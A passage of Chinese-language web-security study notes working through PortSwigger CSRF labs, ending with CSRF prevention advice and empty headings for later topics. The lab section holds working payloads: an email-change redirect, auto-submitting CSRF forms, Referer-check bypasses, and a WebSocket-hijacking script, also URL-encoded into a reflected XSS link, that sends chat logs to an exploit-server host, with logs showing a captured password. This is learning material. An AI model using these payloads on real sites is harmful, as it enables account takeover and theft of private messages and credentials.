        document.location = "https://0a510067046336c381440c6300ad00ad.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
    </script>
    ```

    

* 兄弟域名利用。

* Chrome 2分钟宽限。Chrome 的 Lax-by-default 有一个特殊规定，新创建的 Cookie 在 2 分钟内会即使是跨站 POST 请求也会被携带。

  

portswigger 兄弟域名实验：有一个带聊天室的 blog ，聊天室使用 websocket 传输消息，存在可以被利用的 CSWSH （跨站websocket劫持）漏洞。  

* 访问页面点击主页、聊天、登录等内容，查看 BurpSuite 中历史、Target 等信息，尝试发送消息观察交互

* websocket 握手请求中不包含任何 csrf token，客户端准备好之后发送 READY 消息给服务器

  ```http
  GET /chat HTTP/1.1
  Host: 0a4d00ae0354a8268240fc9a00610034.web-security-academy.net
  Connection: Upgrade
  Pragma: no-cache
  Cache-Control: no-cache
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
  Upgrade: websocket
  Origin: https://0a4d00ae0354a8268240fc9a00610034.web-security-academy.net
  Sec-WebSocket-Version: 13
  Accept-Encoding: gzip, deflate, br
  Accept-Language: zh-CN,zh;q=0.9
  Cookie: session=5SEhWgLUoCuu1CXjZO4FiPI8wolwU71H
  Sec-WebSocket-Key: 9lwaQicxFnoRHWpH1A0kiQ==
  
  ```

* 使用如下脚本，尝试建立链接发送消息到  exploit 服务器（由于 collaborator 需要会员使用此方式代替）

  ```javascript
  <script>
      var ws = new WebSocket('wss://0a4d00ae0354a8268240fc9a00610034.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          // 将聊天记录通过 GET 请求发送到 Exploit Server 的日志中
          var data = encodeURIComponent(event.data);
          new Image().src = 'https://exploit-0a8c00bb042cb600802d11b2014d0036.exploit-server.net/exploit?log=' + data;
      };
  </script>
  ```

  * 由于限制了 SameSite=Strict ，发起的请求不会携带 cookie 信息，因此无法获取到消息

* 在网站上继续寻找，可以找到一些响应头中包含 `Access-Control-Allow-Origin: https://cms-0a4d00ae0354a8268240fc9a00610034.web-security-academy.net` ，访问这个域名发现有用户名密码认证，且用户名存在 js 注入漏洞，这是这个 LAB 设计好可以用来利用的 Sink

  * 使用如下链接测试，可以成功调用 alert

    ```html
    https://cms-0a4d00ae0354a8268240fc9a00610034.web-security-academy.net/login?username=%3Cscript%3Ealert()%3C/script%3E&password=xxxxxx
    ```

* 再将之前的 JS 编码为 URL 形式，替换掉上面 cms 链接中 username 参数部分

  ```html
  https://cms-0a4d00ae0354a8268240fc9a00610034.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%64%30%30%61%65%30%33%35%34%61%38%32%36%38%32%34%30%66%63%39%61%30%30%36%31%30%30%33%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%2f%2f%20%e5%b0%86%e8%81%8a%e5%a4%a9%e8%ae%b0%e5%bd%95%e9%80%9a%e8%bf%87%20%47%45%54%20%e8%af%b7%e6%b1%82%e5%8f%91%e9%80%81%e5%88%b0%20%45%78%70%6c%6f%69%74%20%53%65%72%76%65%72%20%e7%9a%84%e6%97%a5%e5%bf%97%e4%b8%ad%0a%20%20%20%20%20%20%20%20%76%61%72%20%64%61%74%61%20%3d%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%65%76%65%6e%74%2e%64%61%74%61%29%3b%0a%20%20%20%20%20%20%20%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%38%63%30%30%62%62%30%34%32%63%62%36%30%30%38%30%32%64%31%31%62%32%30%31%34%64%30%30%33%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6c%6f%67%3d%27%20%2b%20%64%61%74%61%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=xxxxxx
  ```

* 将上面内容放到一个 location.href 通过 exploit 服务器发送给受害者：

  ```javascript
  <script>
      document.location = 'https://cms-0a4d00ae0354a8268240fc9a00610034.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%64%30%30%61%65%30%33%35%34%61%38%32%36%38%32%34%30%66%63%39%61%30%30%36%31%30%30%33%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%2f%2f%20%e5%b0%86%e8%81%8a%e5%a4%a9%e8%ae%b0%e5%bd%95%e9%80%9a%e8%bf%87%20%47%45%54%20%e8%af%b7%e6%b1%82%e5%8f%91%e9%80%81%e5%88%b0%20%45%78%70%6c%6f%69%74%20%53%65%72%76%65%72%20%e7%9a%84%e6%97%a5%e5%bf%97%e4%b8%ad%0a%20%20%20%20%20%20%20%20%76%61%72%20%64%61%74%61%20%3d%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%65%76%65%6e%74%2e%64%61%74%61%29%3b%0a%20%20%20%20%20%20%20%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%38%63%30%30%62%62%30%34%32%63%62%36%30%30%38%30%32%64%31%31%62%32%30%31%34%64%30%30%33%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6c%6f%67%3d%27%20%2b%20%64%61%74%61%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=xxxxxx';
  </script>
  ```

* 查看 exploit 服务器日志

  ```
  10.0.4.182      2026-08-28 07:20:21 +0000 "GET /exploit?log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22I%20forgot%20my%20password%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"
  10.0.4.182      2026-08-28 07:20:21 +0000 "GET /exploit?log=%7B%22user%22%3A%22CONNECTED%22%2C%22content%22%3A%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"
  10.0.4.182      2026-08-28 07:20:21 +0000 "GET /exploit?log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22Thanks%2C%20I%20hope%20this%20doesn%26apos%3Bt%20come%20back%20to%20bite%20me!%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"
  10.0.4.182      2026-08-28 07:20:21 +0000 "GET /exploit?log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22No%20problem%20carlos%2C%20it%26apos%3Bs%20foib1pv0baqzaxe0lr26%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"
  10.0.4.182      2026-08-28 07:20:21 +0000 "GET /exploit?log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22Hello%2C%20how%20can%20I%20help%3F%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36"
  ```

* 解码上面日志中内容，是受害者的聊天记录，其中包含其账号密码，登录后解决 LAB


## Referer-based 

有些应用使用 HTTP header 中的  referer 字段来尝试防御 CSRF 攻击，但这种方法效果不好，通常容易被绕过。  

portswigger 示例：

```html
<html>
    <form action="https://0ae400300445a8fc83277d4f005300ef.web-security-academy.net/my-account/change-email" method="POST">
        <meta name="referrer" content="never">
        <input type="hidden" name="email" value="victim@hacker.com">
    </form>
    <script>
        document.forms[0].submit();  // auto submit when page loaded
    </script>
</html>
```


**两种常见的“幼稚”（Naive）校验逻辑及绕过方式**   

有些网站会判断 referer 中是否包含自己的域名，可以通过如下方法绕过：

```html
<html>
    <form action="https://0a460069045eca3d801e62680069008f.web-security-academy.net/my-account/change-email?" method="POST">
        // 默认浏览器会将 URL 中的查询字符串移除然后填入 referer 字段中，主要为了保护隐私
        // Referrer-Policy: unsafe-url 是告诉浏览器发送 Referer 时不需要任何裁剪，给我把完整的 URL 原样发出去
        <meta name="referrer" content="unsafe-url">
        <input type="hidden" name="email" value="victim@hacker.com">
    </form>
    <script>
        // history.pushState() 这个方法可以在 URL 中添加查询参数，例如 ?foor=bar 这种，这样在受害者访问 expolit 服务器时会加上下面的后缀，服务器判断逻辑仅验证是否包含当前域名，过于简单就被绕过了
        history.pushState('', '', '/?https://0a460069045eca3d801e62680069008f.web-security-academy.net');
        document.forms[0].submit();  // auto submit when page loaded
    </script>
</html>

```

有一些校验逻辑是验证域名前缀是否匹配，可以通过配置包含目标 URL 域名作为子域名方式绕过。  

例如校验逻辑如下：

```
starts_with('vulnerable-website.com')
```

可以通过配置如下子域名去绕过校验：

```
http://vulnerable-website.com.attacker-website.com/csrf
```


## 如何预防 CSRF

主要还是上面提到的 CSRF-Token 和 SameSite 策略。  

**生成**  

CSRF Token 要遵循这几条准则：

* 具有高熵的不可预测，与常规会话生成要求一样
  * 使用加密安全的伪随机数生产器（Cryptographically Secure Pseudo-random Number Generator,CSPRNG），加上时间戳相关作为 seed 进行初始化
  * 如果需要比 CSPRNG 更强的加密性，可以将 CSPRNG 与用户相关的特定熵组合拼接后，再进行 hash 运算生成令牌。
* 关联到用户会话
* 在关联动作执行之前，每种场景都要严格验证


**传输**  

CSRF token 应当被视为 Secrets ，并在其存在的整个生命周期中安全处理。一种通常有效的方式是将令牌存放在 POST 提交的 HTML 表单中的隐藏字段中传输给客户端，客户端提交时该参数会被包含在其中，例如：

```html
<input type="hidden" name="csrf-token" value="CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz" />
```

CSRF token 字段应该尽量在 HTML 文档的前面，理想情况下存放在任何非隐藏输入字段、用户可控的输入数据之前，以缓解攻击者构造数据操控 HTML 来获取数据。  

还有一种存放在 URL 中的方式安全性较差，因为：

* 字符串会在浏览器和服务器中多个位置被记录
* 容易通过 HTTP Referer 头传输给第三方
* 可能展示在用户屏幕浏览器上

有些应用通过在自定义 header 中传输 CSRF token。由于浏览器通常不允许跨域发送自定义 header ，因此加强了防御。但这种方法限制了应用只能使用 XHR 来发起受 CSRF token 保护的请求，增加了复杂度。  

CSRF token 不应该随着 token 一起传输。  


**验证**  

CSRF token 生成后存放在服务端的用户 session 数据中，后续收到需要验证的请求，服务器应用验证该请求是否包含一个用户会话中存储的值相匹配的 token，无论请求的方法或内容类型是什么，都应该执行此验证。如果请求未包含 token，则应该用和无效 token 时一样的方式拒绝该请求。      


**SameSite 策略**  

除了 CSRF token 之外，建议为每个 cookie 明确设置 SameSite 策略，这样无论浏览器默认策略如何，都会减少不一致的情况。理想情况下使用 strict 策略，有足够理由明确需要时才修改为 Lax 策略。  

虽然 SameSite 为跨站攻击提供防护，但对于跨源、同站攻击无效。   

如果可以将不安全的内容隔离在单独站点（例如用户上传的文件），远离敏感功能或数据。测试一个网站时，全面审计同一个站点的所有可能的攻击面，包括兄弟域名。  


# CORS


# Clickjacking（UI redressing）


# DOM-based 基于DOM的漏洞


# WebSockets


